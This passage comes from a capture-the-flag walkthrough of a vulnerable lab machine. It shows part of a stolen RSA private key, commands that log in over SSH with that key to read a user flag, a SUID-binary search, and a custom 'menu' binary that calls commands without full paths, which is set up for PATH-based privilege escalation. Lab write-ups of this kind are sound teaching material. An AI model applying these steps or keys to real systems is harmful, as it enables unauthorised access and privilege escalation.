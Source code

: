     YNY61y+DdXUvywifkzFmhYkCgYB6TeZbh9XBVg3gyhMnaQNzDQFAUlhM7n/Alcb7
    TjJQWo06tOlHQIWi+Ox7PV9c6l/2DFDfYr9nYnc67pLYiWwE16AtJEHBJSHtofc7
    P7Y1PqPxnhW+SeDqtoepp3tu8kryMLO+OF6Vv73g1jhkUS/u5oqc8ukSi4MHHlU8
    H94xjQKBgExhzreYXCjK9FswXhUU9avijJkoAsSbIybRzq1YnX0gSewY/SB2xPjF
    S40wzYviRHr/h0TOOzXzX8VMAQx5XnhZ5C/WMhb0cMErK8z+jvDavEpkMUlR+dWf
    Py/CLlDCU4e+49XBAPKEmY4DuN+J2Em/tCz7dzfCNS/mpsSEn0jo
    -----END RSA PRIVATE KEY-----
    ```

Change access rights of `id_rsa` and login as kenobi to read `user.txt`:

```sh
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.153.226
cat /home/kenobi/user.txt
```

## Task 4  Privilege Escalation with Path Variable Manipulation

To search the a system for SUID bits run the following: ```find / -perm -u=s -type f 2>/dev/null```

??? output "SUID bits"
    ```sh
    /sbin/mount.nfs
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/snapd/snap-confine
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/bin/chfn
    /usr/bin/newgidmap
    /usr/bin/pkexec
    /usr/bin/passwd
    /usr/bin/newuidmap
    /usr/bin/gpasswd
    /usr/bin/menu
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/at
    /usr/bin/newgrp
    /bin/umount
    /bin/fusermount
    /bin/mount
    /bin/ping
    /bin/su
    /bin/ping6
    ```

Running ```/usr/bin/menu``` shows us the binary is running without a full path:

```txt
1. status check
2. kernel version
3. ifconfig
```
